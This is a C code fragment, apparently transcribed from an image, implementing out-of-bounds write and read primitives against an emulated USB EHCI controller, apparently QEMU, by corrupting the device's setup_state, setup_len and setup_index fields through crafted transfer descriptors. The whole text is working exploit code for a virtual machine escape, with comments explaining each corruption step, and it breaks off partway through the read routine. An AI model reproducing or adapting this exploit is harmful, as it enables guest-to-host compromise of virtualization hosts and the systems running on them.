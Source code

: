 ```c
	usb_set_len(SETUP_INDEX_OFFSET+4);
	
	
	reset_hci();
	qtd->token = QTD_TOKEN_ACTIVE;
	set_field(&qtd->token,0,QTD_TOKEN_PID);//make function ehci_get_pid return USB_TOKEN_OUT
	
	//ehci_init_transfer function
	set_field(&qtd->token,0,QTD_TOKEN_CPAGE);
	set_field(&qtd->token,SETUP_INDEX_OFFSET+4,QTD_TOKEN_TBYTES);
	//do_token_setup function
	*((uint32_t*)(data_buf+SETUP_INDEX_OFFSET-8)) = 2;//make USBDevice Struct setup_state = SETUP_STATE_DATA!!!!!!
	*((uint32_t*)(data_buf+SETUP_INDEX_OFFSET-4)) = value + size + 8;//make USBDevice Struct setup_len > setup_index!!!!!! +8 make next setup_state = SETUP_STATE_DATA
	*((uint32_t*)(data_buf+SETUP_INDEX_OFFSET)) = value - (SETUP_INDEX_OFFSET + 4);

	run_hci();
}

static int write_data(uint32_t offset,uint8_t *buf,size_t size)
{
	if(size > (DATA_BUF_SIZE ) || !buf){
		return -1;
	}
	override_setup_index(offset,size);
	
	reset_hci();
	qtd->token = QTD_TOKEN_ACTIVE;
	set_field(&qtd->token,0,QTD_TOKEN_PID);//make function ehci_get_pid return USB_TOKEN_OUT
	
	//ehci_init_transfer function
	set_field(&qtd->token,0,QTD_TOKEN_CPAGE);
	set_field(&qtd->token,size,QTD_TOKEN_TBYTES);
	
	memcpy(data_buf,buf,size);
	

	run_hci();//after cpy

	return 0;
}

static int read_data(uint32_t offset,uint8_t *buf,size_t size)
{
	uint8_t *ptr;
	if(size > (DATA_BUF_SIZE  ) || !buf){
		return -1;
	}
	
	ptr = kmalloc(8192,GFP_KERNEL);
	if(!ptr) return -1;
	

	ptr[0] = USB_DIR_IN;
	*(uint32_t*)(ptr+8+SETUP_INDEX_OFFSET-8) = 2;//setup_state
	*(uint32_t*)(ptr+8+SETUP_INDEX_OFFSET-4) = offset+size;//make setup_len > setup_index
	*(uint32_t*)(ptr+8+SETUP_INDEX_OFFSET) = offset - (SETUP_INDEX_OFFSET+4+8);//setup_index
	write_data(-8,ptr,SETUP_INDEX_OFFSET+4+8);//make USBDevice Struct data_buf[0] == USB_DIR_IN
	
	reset_hci();
	qtd->token = QTD_TOKEN_ACTIVE;
	set_field(&qtd->token,1,QTD_TOKEN_PID);//make function ehci_get_pid return USB_TOKEN_IN
```
